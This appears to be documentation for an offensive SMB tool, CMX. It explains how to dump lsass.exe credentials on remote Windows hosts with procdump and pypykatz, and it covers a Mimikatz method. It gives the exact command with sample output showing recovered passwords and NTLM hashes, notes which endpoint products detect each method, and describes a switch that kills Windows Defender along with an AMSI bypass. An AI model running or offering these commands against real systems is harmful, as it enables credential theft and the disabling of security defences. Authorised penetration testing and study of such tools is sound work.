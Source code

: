 ------------------------------------------------------------------------
### \*Procdump Method

CMX transfers procdump64.exe to the host, dumps lsass.exe, pulls the dump back (so you can work locally with it more if you want), and finally parses the dump via skelsec's pypykatz.  

|---------------+-------------+-------------+-------------+------------|
| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| TRUE          | false       | TRUE        | false       | False*     |
|---------------+-------------+-------------+-------------+------------|
{: .tablelines}
Crowdstrike detects this, however, windows defender doesnt.



### Command Syntax  
`cmx smb TARGET -u Username -p Pass --dump`

```
# cmx smb 192.168.0.103 -u eminem -p Admin\!23 --dump
Mar.25.20 19:21:25  SMB      192.168.0.103  WIN7A   [*] Windows 6.1 Build 7601 x64 (domain:SWAMP) (signing:False) (SMBv:2.1)
Mar.25.20 19:21:25  SMB      192.168.0.103  WIN7A   [+] SWAMP\eminem:Admin!23 (Pwn3d!)
Mar.25.20 19:21:26  SMB      192.168.0.103  WIN7A   [*] Uploading procdump64
Mar.25.20 19:21:27  SMB      192.168.0.103  WIN7A   [*] Waiting for procdump to finish
Mar.25.20 19:21:36  SMB      192.168.0.103  WIN7A   [*] Downloading dump file to current directory
Mar.25.20 19:21:37  SMB      192.168.0.103  WIN7A   [+] Success, now cleaning up on target.
Mar.25.20 19:21:37  SMB      192.168.0.103  WIN7A      Results:
Mar.25.20 19:21:37  SMB      192.168.0.103  WIN7A       SWAMP\arianna:User!23
Mar.25.20 19:21:37  SMB      192.168.0.103  WIN7A       SWAMP\WIN7A$:42d8cf1444bb879485532fea86c9e53e
Mar.25.20 19:21:37  SMB      192.168.0.103  WIN7A       SWAMP\arianna:bbc2bf2fbca9dd9ed74d3c1b55e3d727

```


------------------------------------------------------------------------
### \*Mimikatz Method


|---------------+-------------+-------------+-------------+------------|
| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| TRUE          | false       | TRUE        | false       | false*     |
|---------------+-------------+-------------+-------------+------------|
{: .tablelines}
Crowdstrike catches this.

\* Note: Windows Defender might catch this (depends on host OS version), so be sure to add the -kd switch if you think defender is running.  
-kd = kill defender

\* Note: as of april/3/2020 the powershell amsi bypass is getting caught by defender on up-to-date win10
Killing defender will still work but may throw an alert to the end user when the amsi bypass fails. 
